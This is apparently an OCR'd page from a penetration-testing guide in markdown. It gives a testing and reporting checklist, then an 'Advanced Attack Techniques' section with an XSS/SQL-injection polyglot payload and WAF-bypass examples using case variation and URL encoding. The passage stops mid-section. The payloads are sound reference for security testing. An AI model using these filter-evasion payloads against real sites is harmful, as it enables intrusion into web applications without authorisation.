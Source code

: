 ### Testing Phase
- [ ] Perform reconnaissance
- [ ] Conduct vulnerability assessment
- [ ] Execute manual testing
- [ ] Validate findings
- [ ] Document evidence

### Post-Testing Phase
- [ ] Compile comprehensive report
- [ ] Provide remediation guidance
- [ ] Conduct risk assessment
- [ ] Present findings to stakeholders
- [ ] Support remediation efforts

---

## 🚀 Advanced Attack Techniques

### 1. Polyglot Payloads
```javascript
// XSS + SQL Injection Polyglot
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>
```

### 2. WAF Bypass Techniques
```javascript
// Case variation
<ScRiPt>alert(1)</ScRiPt>

// Encoding
%3Cscript%3Ealert(1)%3C/script%3E
